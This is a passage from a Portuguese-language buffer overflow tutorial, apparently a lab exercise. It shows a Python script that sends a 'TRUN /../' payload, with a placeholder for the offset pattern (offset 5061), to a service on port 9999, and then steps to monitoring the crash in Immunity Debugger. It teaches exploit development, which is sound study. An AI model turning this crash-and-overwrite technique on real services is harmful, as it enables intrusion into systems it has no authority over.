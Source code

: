 Vamos inserí-lo em nosso script.

xpltrun.py:

```python
#!/usr/bin/python3

import socket

# variaveis de conexao
ip = "192.168.1.30"
porta = 9999

# tamanho do offset encontrado no fuzzing
offset = 5061

# payload a ser enviado
payload = b"TRUN /../"
payload += b"<o patter vai aqui>"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) # cria o socket
s.connect((ip,porta)) # conecta no alvo

s.send(payload + b"\r\n") # envia o payload

s.close() # fecha conexao
```

Agora vamos rodar o script novamente, e monitorar com o Immunity Debugger.

![Immunity.](/std/winbof/winbof-8.png)
